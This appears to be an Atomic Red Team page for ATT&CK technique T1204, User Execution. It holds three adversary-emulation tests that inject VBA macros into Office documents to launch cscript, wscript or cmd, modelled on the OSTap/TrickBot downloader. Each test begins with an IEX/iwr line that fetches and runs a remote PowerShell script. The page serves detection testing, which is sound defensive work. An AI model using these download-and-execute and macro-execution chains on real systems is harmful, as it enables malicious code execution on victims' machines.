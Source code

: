 # T1204 - User Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1204)
<blockquote>An adversary may rely upon specific actions by a user in order to gain execution. This may be direct code execution, such as when a user opens a malicious executable delivered via [Spearphishing Attachment](https://attack.mitre.org/techniques/T1193) with the icon and apparent extension of a document file. It also may lead to other execution techniques, such as when a user clicks on a link delivered via [Spearphishing Link](https://attack.mitre.org/techniques/T1192) that leads to exploitation of a browser or application vulnerability via [Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203). Adversaries may use several types of files that require a user to execute them, including .doc, .pdf, .xls, .rtf, .scr, .exe, .lnk, .pif, and .cpl. 

As an example, an adversary may weaponize Windows Shortcut Files (.lnk) to bait a user into clicking to execute the malicious payload.(Citation: Proofpoint TA505 June 2018) A malicious .lnk file may contain [PowerShell](https://attack.mitre.org/techniques/T1086) commands. Payloads may be included into the .lnk file itself, or be downloaded from a remote server.(Citation: FireEye APT29 Nov 2018)(Citation: PWC Cloud Hopper Technical Annex April 2017) 

While User Execution frequently occurs shortly after Initial Access it may occur at other phases of an intrusion, such as when an adversary places a file in a shared directory or on a user's desktop hoping that a user will click on it.</blockquote>

## Atomic Tests

- [Atomic Test #1 - OSTap Style Macro Execution](#atomic-test-1---ostap-style-macro-execution)

- [Atomic Test #2 - Maldoc choice flags command execution](#atomic-test-2---maldoc-choice-flags-command-execution)

- [Atomic Test #3 - OSTAP JS version](#atomic-test-3---ostap-js-version)


<br/>

## Atomic Test #1 - OSTap Style Macro Execution
This Test uses a VBA macro to create and execute #{jse_path} with cscript.exe. The .jse file in turn launches wscript.exe.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

This is a known execution chain observed by the OSTap downloader commonly used in TrickBot campaigns 
References:
  https://www.computerweekly.com/news/252470091/TrickBot-Trojan-switches-to-stealthy-Ostap-downloader

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER&#92;SOFTWARE&#92;Microsoft&#92;Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|
| jse_path | Path for the macro to write out the "malicious" .jse file | String | C:&#92;Users&#92;Public&#92;art.jse|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:
```powershell
if (Test-Path #{jse_path}) { Remove-Item #{jse_path} }
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```powershell
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
<br/>

## Atomic Test #2 - Maldoc choice flags command execution
This Test uses a VBA macro to execute cmd with flags observed in recent maldoc and 2nd stage downloaders
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER&#92;SOFTWARE&#92;Microsoft&#92;Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "  a = Shell(`"cmd.exe /c choice /C Y /N /D Y /T 3`", vbNormalFocus)"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```powershell
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
<br/>

## Atomic Test #3 - OSTAP JS version
Malicious JavaScript executing CMD which spaws wscript.exe //e:jscript 
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER&#92;SOFTWARE&#92;Microsoft&#92;Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|
| jse_path | jse file to execute with wscript | Path | C:&#92;Users&#92;Public&#92;art.jse|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   a = Shell(`"cmd.exe /c wscript.exe //E:jscript #{jse_path}`", vbNormalFocus)`n"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:
```powershell
if (Test-Path #{jse_path}) { Remove-Item #{jse_path} }
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```powershell
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
